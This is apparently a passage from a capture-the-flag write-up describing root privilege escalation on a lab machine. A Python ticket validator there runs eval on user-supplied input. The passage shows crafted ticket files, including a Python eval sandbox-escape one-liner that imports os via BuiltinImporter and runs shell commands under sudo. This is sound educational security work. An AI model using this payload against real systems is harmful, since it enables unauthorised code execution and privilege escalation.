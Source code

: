 The script would read a file provided by the user, and if it respected the needed format, it would use [eval](https://docs.python.org/3/library/functions.html#eval) to evalute the ticket code.

The ticket code line needed to start with `**`. The rest of the line would be split on `+` signs, and the code would make sure that the part before the first `+` sign would have a reminder of 4 if divided by 7.

I crafted a ticket that would meet those conditions, and execute some Python when passed to `eval`.

```bash
development@bountyhunter:~$ cat t.md 
# Skytrain Inc
## Ticket to 

__Ticket Code:__
** 4 + print('RCE')

development@bountyhunter:~$ python3.8 /opt/skytrain_inc/ticketValidator.py 
Please enter the path to the ticket file.
t.md
Destination: 
RCE
Traceback (most recent call last):
  File "/opt/skytrain_inc/ticketValidator.py", line 52, in <module>
    main()
  File "/opt/skytrain_inc/ticketValidator.py", line 45, in main
    result = evaluate(ticket)
  File "/opt/skytrain_inc/ticketValidator.py", line 34, in evaluate
    validationNumber = eval(x.replace("**", ""))
  File "<string>", line 1, in <module>
TypeError: unsupported operand type(s) for +: 'int' and 'NoneType'
```

The script crashed, but it printed `RCE` before. So I could run Python code with it. I tried running code that did more than printing a line, but that was a little more complicated. I could not import modules to run system commands. 

I searched and found a [post](https://netsec.expert/posts/breaking-python3-eval-protections/) that explained how to view and use built-in functions in eval one-liners. 

I used the provided examples from the post to confirm that I could use the `BuiltinImporter` to import the `os` module and use it to execute commands on the server.

```bash
development@bountyhunter:~$ cat t.md 
# Skytrain Inc
## Ticket to 

__Ticket Code:__
** 4 + [x for x in  [].__class__.__base__.__subclasses__() if x.__name__ == 'BuiltinImporter'][0]().load_module('os').system("echo pwned")

development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
t.md
Destination: 
pwned
Invalid ticket.
```
